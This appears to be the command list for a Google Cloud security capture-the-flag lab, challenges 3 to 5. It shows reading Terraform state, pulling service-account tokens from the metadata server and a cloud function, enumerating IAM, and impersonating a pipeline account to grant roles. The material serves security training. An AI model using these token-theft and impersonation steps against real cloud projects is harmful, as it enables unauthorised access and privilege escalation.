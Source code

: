 # Commands

<details>
  <summary>***** Challenge 3 *****</summary>

## Challenge 3

read state file
#####
    gsutil cat gs://file-uploads-$PROJECT_ID/default.tfstate

  <details>
    <summary>Walkthrough Challenge 3</summary>
    
  ssh into vm
  #####
    ssh -i <private key file> alice@<compute instance IP> 

  </details>

</details>

#

<details>
  <summary>***** Challenge 4 *****</summary>

## Challenge 4

show VM service account
#####
    gcloud auth list

background: metadata server
#####
    curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/" -H "Metadata-Flavor: Google"

demonstrate limited access scopes
#####
    gcloud compute instances list

show access scopes from tokeninfo endpoint
#####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$(gcloud auth print-access-token)

list storage buckets from VM
#####
    gsutil ls

  <details>
    <summary>Walkthrough Challenge 4</summary>

  list function source code bucket
  #####
      gsutil ls gs://cloud-function-bucket-challenge4

  read source code
  #####
      gsutil cat gs://cloud-function-bucket-challenge4/main.py

  execute function invocation script
  #####
      ./invoke_monitoring_function.sh

  extract command to get function token
  #####
    curl -s -X POST https://$LOCATION-$PROJECT_ID.cloudfunctions.net/monitoring-function -H "Authorization: bearer $(gcloud auth print-identity-token)" -H "Content-Type: application/json" -d '{"metadata": "token"}'

  save the new token in env var and check access scopes
  #####
    curl -i https://www.googleapis.com/oauth2/v3/tokeninfo\?access_token=$TOKEN
    
  </details>

</details>

#

<details>
  <summary>***** Challenge 5 *****</summary>

## Challenge 5

set token as env var
#####
     export CLOUDSDK_AUTH_ACCESS_TOKEN=<function token>

Get project permissions
#####
    gcloud projects get-iam-policy $PROJECT_ID

List the other service accounts on this project:
#####
    gcloud iam service-accounts list

Describe role
#####
    gcloud iam roles describe TerraformPipelineProjectAdmin --project $PROJECT_ID

Describe bindings on SA
#####
    gcloud iam service-accounts get-iam-policy <terraform service account>

  <details>
    <summary>Walkthrough Challenge 5</summary>
  
  impersonate and set binding
  #####
    gcloud projects add-iam-policy-binding $PROJECT_ID --member=user:<your Google account> --role=roles/viewer --impersonate-service-account <terraform pipeline account>
  
  </details>

</details>
